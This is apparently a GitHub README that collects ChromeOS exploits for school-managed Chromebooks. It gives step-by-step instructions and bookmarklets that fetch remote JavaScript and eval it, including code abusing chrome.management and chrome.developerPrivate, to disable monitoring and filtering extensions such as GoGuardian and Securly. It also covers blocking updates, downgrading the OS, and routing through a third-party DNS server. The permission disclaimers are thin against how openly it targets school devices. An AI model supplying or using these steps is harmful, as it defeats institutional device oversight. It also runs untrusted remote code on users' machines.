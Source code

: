 # EXT-REMOVER
This is a curated list of exploits for ChromeOS. It started with LTBEEF, and now there is more!
Many of these exploits can destory your computer if used inproperly. So PLEASE PLEASE make sure you follow these instructions very carefully!
If you need help ask it <a href="https://github.com/3kh0/ext-remover/discussions">here</a>
 

<img width="250px" src="https://user-images.githubusercontent.com/58097612/191354621-bf7ff072-b9d7-46b5-994a-4d2adbf0e4f3.png">  
Image Credit: LittleMissNyan
<details>
<summary><b> Extension Launcher (Bookmarklet) </summary>
A bookmarklet capable of installing extensions, for those without a allowlist. 

Steps: 
Go to <a href="https://extension-installer.glitch.me/code.js">here</a> bookmark the code there (Might make a dns)
go to chrome.google.com/webstorex and use the bookmarklet, then put the icon of the extension, the id, and name of it (Doesn't matter just put anything)
press download, and it will work.
**Extra Notes**
- Credit to "Aka, but nice" on discord.
- Dns will be up soon, if bookmarklets are blocked
- This will not work if you have a blocklist this is only for if when you go to the webstore it shows blocked
</details>
<details>
<summary><b>New Point-Blank</b> (Run scripts on extension pages)</summary>
This exploit allows you to run scripts, on extensions pages, this is a great example of how Chromebooks are a piece of garbage.

*Scroll down to preform this exploit!*


<i>Getting started</i>
(Note: if bookmarklets are blocked your screwed.)
  1. Go to <a href="https://spot-maze-chinchilla.glitch.me/ingot.js">here</a> (on your school chromebook of course)
2. Make a bookmark with the code there.
3. Once that is done.
  If you have Securly go to <a href="https://tinyurl.com/bettergoofcurly">here</a> if it says blocked by chrome, reload(you have to actually have securly ofc)
 If you have iBoss go to <a href="https://tinyurl.com/goofboss">here</a>, 
 
 If you have Cisco Umbrella go to <a href="https://tinyurl.com/goofumbrella">here</a>
 If you have Blocksi go to <a href="https://tinyurl.com/goofsi">here</a> 
 And if you have GoGuardian(might not work) go to <a href="https://tinyurl.com/goofguardian">here</a>. Now most of these links are a block page(this is intentional) on each page should have a blue link, click the link on the page if it opens a blank page click the bookmarklet that you just made and click either hard disable or soft disable, you can also run some of the scripts and run your own code, your extension may disable javascript being ran on it, so running your own code may not work.
**Extra notes**
- I recommend doing soft disable, which only disables it until restart. 
- The launcher was made by me, but the idea was from <a href="https://bolg.glitch.me/_/point-blank/">Bypassi#7037</a>
- If your school updated GoGuardian, this exploit may not work.

Please use this only when you have permisson, I (3kh0) do not condone the use of this exploit for illegal purposes!

</details>

<details>
<summary><b>CAUB</b> (Prevent Updates)</summary>
This exploit keeps your chromebook downgraded (or on the current version) without automatic updates screwing you over. This exploit was found by Catakang#0987. Using onc files, you can convince your chromebook that the wifi that you're connected to is pay-to-use (like a hotspot using data), and thus it will not check for updates.

*Scroll down to preform this exploit!*

![image](https://user-images.githubusercontent.com/58097612/212685932-ef9c802e-6040-42a3-be6e-10997162b7cd.png)

<i>Getting started</i>

1. Go to `chrome://network#state` (on your school chromebook of course; if this is blocked then ur kinda screwed lol).
2. Scroll to the bottom of the page; you should see a list of "favorite" wifis that you've connected to in the past.
3. Click the + sign next to the wifi name of each network that you commonly connect your chromebook to.
4. The more wifis you expand, the better, but note that they have to come from the "favorites" section.
5. Use ctrl+a and ctrl+c to copy all the text on the entire network#state page.
6. Go to [caub.glitch.me](https://caub.glitch.me/).
7. Paste the copied text into the textbox bshelow.
8. Press the "generate onc" button below the textbox.
9. Once you have downloaded the file, go to chrome://network#general
10. Click on the "import onc" button
11. Import the newly downloaded file

**Extra notes**
- Your chromebook will no longer automatically update. (as long as you are on a wifi that you used caub on)
- Be careful not to stay on a wifi for too long without using caub on it, otherwise you might update.
- We cannot guarantee that this will work on every wifi

Please use this only when you have permisson, I (3kh0) do not condone the use of this exploit for illegal purposes!

</details>

<details>
<summary><b>LTBEEF</b> (Disable extensions)</summary>
LTBEEF is an exploit, created by Bypassi#7037, which abuses api endpoints within the google chrome webstore.  

<b>Please Note:</b> This exploit only works on versions below 106, and eariler versions of 102
  
The original site created for this exploit can be found at <a href="https://ltbeef.netlify.app/">ltbeef.netlify.app</a>
  
**Installation**  
There are several vesions of this exploit you can use, here are the 2 most common versions:
- *Bookmarklets*  
    To use a GUI, bookmark one of the below scripts:  
    - Ingot  
    ```js
    javascript:(function () {var a = document.createElement('script');a.src = 'https://cdn.jsdelivr.net/gh/FogNetwork/Ingot/ingot.min.js';document.body.appendChild(a);}())
    ```
    - Compact Cow's UI  
    ```js
    javascript:fetch(`https://compactcow.com/ltbeef/exploit.js`).then(data=>{data.text().then(text=>{eval(text)})});
    ```  
    - Compact Cow's UI (Dark)
    ```js
    javascript:void fetch(`https://raw.githubusercontent.com/3kh0/ext-remover/main/exploit.js`).then(d=>d.text()).then(eval);
    ```

    Navigate to <a href="https://chrome.google.com/webstorex">https://chrome.google.com/webstorex</a> and click on that bookmark. Flip the switches on the extentions you want to disable. Simple!  

    Photos of the GUI's:
    ![image](https://user-images.githubusercontent.com/58097612/193318485-5267cd59-fb65-45a5-ad28-7f068bbce974.png)
    ![image](https://user-images.githubusercontent.com/58097612/190276894-fc492c5c-b0ce-4943-ae56-603f75634618.png)
   
- *DNS servers*  
    By changing your DNS server, you can use LTBEEF, even if bookmarklets are blocked.  
      
    First, go to Settings > Network > Wifi > Network, and click on "Custom Name Servers"
    ![image](https://user-images.githubusercontent.com/88395302/212482302-82334f42-c421-45c2-b210-1e700652b5be.png)  
    Set every box there to the following ip:  
    ```158.101.114.159``` (Hosted by The Greatest Giant#0110)  
    Navigate to <a href="https://chrome.google.com/webstorex">https://chrome.google.com/webstorex</a> and click on that bookmark. Flip the switches on the extentions you want to disable. 


Please use this only when you have permisson, I (3kh0) do not condone the use of this exploit for illegal purposes!
</details>  

<details>
<summary><b>LTBEEF inspect</b> (Using inspect to disable extensions)</summary>

![image](https://user-images.githubusercontent.com/58097612/207386423-e6aa2095-d92d-44a8-a3d6-e42066bdf34e.png)

The screenshot below was preformed on 108.0.5359.75 (Official Build) (64-bit) on the stable channel.

This has been tested and does work but has varying levels of success, you will need access to inspect element, more specifically, console.

- Open this URL on your chromebook: `chrome-extension://gndmhdcefbhlchkhipcnnbkcmicncehk/manifest.json` Shortened link: https://tinyurl.com/i-ltbeef
- Open inspect and navigate to the console tab.
- Run the basic LTBEEF code such as
```js
chrome.management.setEnabled('extensionid', false)
```
Replacing `extensionid` with the ID of the extension you want to disable, e.g. the stuff after the = in the URL bar when you click the extension's "details" button in chrome://extensions

Credit to SprinkzMC#8421 (aka Bypassi) for finding this!

![image](https://user-images.githubusercontent.com/58097612/207385046-5a9f6f07-6089-4775-9183-c11bd24ba02c.png)

To re-enable just go to the chrome web listing for the extension and click on the banner.
</details>

<details>
<summary><b>Point Blank</b> (Run code on system pages)</summary>
Point Blank is an exploit that allows you to run bookmarklets on privilaged pages, sutch as the chrome extentions page.  
This exploit was also found by Bypassi, you can read more about how he discovered this exploit <a href="https://blog.bypassi.com/_/point-blank/"></a>
You can either use the prompt or the gui the prompt is below
1. Bookmark this code:







    javascript:let shim = false;var ids = prompt("extension ids (comma separated)").split(",");setInterval(()=>{ids.forEach((id)=> opener.chrome.developerPrivate.updateExtensionConfiguration({extensionId: id, fileAccess: shim}));shim = !shim;}, 145);
    
    
    
    
    
   
And the gui is in launcher.js
2. Navigate to `chrome://extensions` 
3. Click on a extension that YOU installed from the Chrome Web Store > Details
4. In the URL bar, copy the string of letters and numbers after the `/?id=`
5. Click "View in Chrome Web Store" and spam the excape key. If it loads into chrome webstore try again, if it is a blank screen click the bookmarklet
5. Paste the id of the extension into the prompt or input box seperated by commas.
If you close the tab, the exploit will stop working.

Please use this only when you have permisson, I (3kh0) do not condone the use of this exploit for illegal purposes!
</details>

<details>
<summary><b>SH1mmer</b></summary>  
SH1mmer is an exploit devloped by the crew at Mercury Workshop. Credits can be found within the menu and on their site.  

Further information is now located at these links:

[Official Repository](https://github.com/CoolElectronics/sh1mmer)  
[Official Website (INSTRUCTIONS)](https://sh1mmer.me/)  
[Raw Shims Download](https://files.ultimatesrv.com/)  
[Wax4Web Shim Builder](https://build.ultimatesrv.com/)
</details>

<details>
<summary><b>Downgrading</b> (Change versions)</summary>  
Downgrading can be used for several exploits, to get to a version that does not have patches for certain exploits, sutch as LTBEEF. This is a built in feature of ChromeOS.

![image](https://user-images.githubusercontent.com/58097612/212685863-3d6b8ce1-7caa-4735-95a8-8eb6787b227c.png)

<i>Requirements</i>
1. A USB thumb drive with at least 4gb of storage, some board have small or bigger images, so have a beef usb, I recommend 16gb
2. A personal computer with access to downloading extentions
3. A brain

<i>Setup</i>
1. Navigate to chrome://version on the chromebook you with to downgrade and check for your board under "Platform" (ex I have a c3100 and it's board is stable-channel octopus)  
<img src="https://user-images.githubusercontent.com/88395302/212484378-65e6e6e3-b995-48a1-b229-3265a4993279.png">  
2. Navigate to https://chrome100.dev/ , press `ctrl+f` and type in your board
3. Find and download the chrome version you want to your personal computer

<i>Instlation</i>
1. Install Chromebook Recovery Utility onto your personal computer (found at <a href="https://chrome.google.com/webstore/detail/chromebook-recovery-utili/pocpnlppkickgojjlmhdmidojbmbodfm?hl=en">https://chrome.google.com/webstore/detail/chromebook-recovery-utili/pocpnlppkickgojjlmhdmidojbmbodfm?hl=en</a>
2. Open the extention, and click on the settings button in to top right hand corner, click "use local image"
3. Select the recovery image you downloaded from chrome100
4. Plug in the USB you wish to use, and follow the prompts on the screen
5. On your chromebook, press esc+reload+power and follow the prompts
6. On the checking for updates screen, press ctrl+shift+e to skip the "checking for updates" screen
7. Profit

Please use this only when you have permisson, I (3kh0) do not condone the use of this exploit for illegal purposes!
</details>
  
<details>
  <summary><b>Killcurly</b></summary>
Kill extension, by signing out.

1. Visit chrome://settings/signOut the O in Out must be capital.
2. Press the blue button
3. Go to chrome://restart
4. Now visit tinyurl.com/AddSession
5. Add your **SCHOOL** account back. It WILL NOT WORK if you add a home account back. This is just so you can still access Google Drive, Youtube, and any Google   service.
6. All extensions should stop working.
7. Note that you have to repeat this every time you restart or sign out.
  
  **Using this, may get your computer taken away if your school finds out.** 
**This was discoverered by zoroark**
Please use this only when you have permisson, I (3kh0) do not condone the use of this exploit for illegal purposes!
</details>


boop
